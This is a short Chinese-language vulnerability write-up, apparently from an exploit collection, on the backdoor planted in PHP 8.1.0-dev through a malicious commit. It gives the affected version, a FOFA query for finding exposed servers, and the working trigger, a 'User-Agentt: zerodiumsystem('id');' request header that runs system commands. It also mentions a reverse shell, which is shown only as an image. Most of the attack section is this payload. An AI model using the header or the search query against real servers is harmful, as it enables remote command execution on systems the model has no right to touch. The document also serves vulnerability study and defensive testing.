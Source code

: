 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

> [!NOTE]
>
> PHP 8.1.0-dev

## FOFA

> [!NOTE]
>
> "PHP/8.1.0-dev"

## 漏洞复现

后门为添加请求头

```
User-Agentt: zerodiumsystem('id');
```

> [!NOTE]
>
> 是 User-Agentt 不是 User-Agent

![](image/php-1.png)

反弹shell

![](image/php-2.png)